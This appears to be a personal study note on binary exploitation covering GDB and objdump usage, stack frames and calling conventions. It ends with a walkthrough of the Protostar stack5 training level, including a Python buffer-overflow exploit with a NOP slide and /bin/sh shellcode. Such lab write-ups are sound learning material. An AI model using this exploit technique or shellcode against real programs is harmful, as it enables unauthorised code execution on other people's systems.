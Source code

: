 # Security Learning Note

## Binary Exploitation

#### Learning Sources
+ [LiveOverflow Youtube channel](https://www.youtube.com/watch?v=VroEiMOJPm8&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=7&t=0s)

#### Before Cracking
+ ```file```: determine file type
+ ```strings```: print the sequences of printable characters in files

#### GDB
+ ```set disassembly-flavor intel```: a more readable style
+ ```disassemble main```: display all assembler instructions of the ```main``` function
+ ```break *address```: for example, ```break *main```
+ ```si```: step one instruction
+ ```info registers```:
    - ```rip / eip```: instruction pointer (program counter)
    - ```rsp / esp```: stack pointer
    - ```eax```: the first 32 bits of the 64-bit ```rax``` register
+ ```set $eax=0```: set the register ```eax``` to 0
+ ```info proc mapping```: report the memory address space ranges accessible in a process.
+ x command: examine the content of a memory address [reference](https://visualgdb.com/gdbreference/commands/x)
    - ```x/4wx $esp```
+ define a "hook", for example, *hook-stop* will execute when the program stop at a breakpoint:
  ```
  (gdb) define hook-stop
  Type commands for definition of "hook-stop".
  End with a line saying just "end".
  >info registers
  >x/32wx $esp+0x1c
  >x/2i $eip
  >end
  ```

### objdump
+ ```objdump -d $FILENAME```: disassembler
+ ```objdump -x $FILENAME```: print header information
+ ```objdump -t $FILENAME```: print the symbol table entries, can be used to find the address of a function

### strace & ltrace
+ ```strace```: trace system calls
+ ```ltrace```: trace library calls

### Other useful tools
+ Radare2, Ghidra, ...

### Parser Differential
+ Use fuzzing technique to make a program failed to be parsed by gdb, radare2, or whatever but able to be executed by ```execve```.

### Stack

+ ebp / rbp: contains the address of the bottom of the stack
+ esp / rsp: contains the address the top of the stack

### Calling Convention:
1. push the paramters to be passed on the stack (in reverse order)
2. ```call``` instruction
    1. push the return address on the stack
    2. set ```eip (rip)``` to the address of the callee 
4. push the value of ```ebp``` on the stack
5. set ```ebp``` to the value of ```esp```
6. align the value of ```esp``` (bitwise and with 0xfffffff0)
7. substract ```esp``` by a certain value to create the stack frame

### End of a Function
1. ```leave``` instruction: ```mov esp, ebp``` then ```pop ebp```
2. ```ret``` instruction (the invert of ```call``` instruction): get and set the next instruction pointer, which is on the top of the stack 

### [Protostar](https://exploit.education/protostar/)

#### [stack5](https://exploit.education/protostar/stack-five/)

1. First analyze the disassembled code:
```
0x080483c4 <main+0>:    push   ebp
0x080483c5 <main+1>:    mov    ebp,esp
0x080483c7 <main+3>:    and    esp,0xfffffff0
0x080483ca <main+6>:    sub    esp,0x50
0x080483cd <main+9>:    lea    eax,[esp+0x10]
0x080483d1 <main+13>:   mov    DWORD PTR [esp],eax
0x080483d4 <main+16>:   call   0x80482e8 <gets@plt>
0x080483d9 <main+21>:   leave  
0x080483da <main+22>:   ret    
```
The goal is to smash the stack frame of ```gets``` and redirect the return address to ```execve("/bin/sh")``` at the return of main function.
2. From the assembly code, we know the buffer starts at ```$esp+0x10```, whose value can be found by GDB.
3. To know the size of padding, we need to know ```$esp``` when ```0x080483da <main+22>:   ret``` is executed. We can find it out by setting a breakpoint at ```ret``` and ```x/wx $esp```. Now we know that the padding should be 76 bytes long. (actually the last 4 bytes is the old ```ebp```, but it does not matter here)
4. determine the value of ```eip```: Where to place our shell code? Here we choose to place it right after the position of ```eip```
5. However, the address space may not be the same every time since the data pushed on the stack can be different (e.g. environment variables). To address this issue, we can find a way to know the exact value by the other code in the binary. However, we can also use NOP(opcode: ```0x90```) slide to make sure that ```eip``` points to the code we control. 
    - make the *eip* point to the middle of the NOP slide
5. add shellcode: copy from [shell-storm](http://shell-storm.org/shellcode/)

!!! info
    use ```int3```(opcode: ```0xCC```) instruction to debug shellcode

!!! warning
    ```python exploit.py | /opt/protostar/bin/stack5``` does not work because stack5's stdin has been redirected to the stdout of exploit.py. When the shell gets executed, it reads nothing but the EOF of the stdout of exploit.py. As a result, the shell does not read any input from our terminal. A possible solution is using ```cat``` to "continue" the pipe and pipe our commands into the stdin of the shell.
    ```bash
    (python exploit.py; cat) | /opt/protostar/bin/stack5
    ```

```python
import struct

padding = 'A' * 76
eip = struct.pack('I', 0xbffff6e0+40)
nopslide = '\x90' * 100
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
print padding + eip + nopslide + shellcode
```
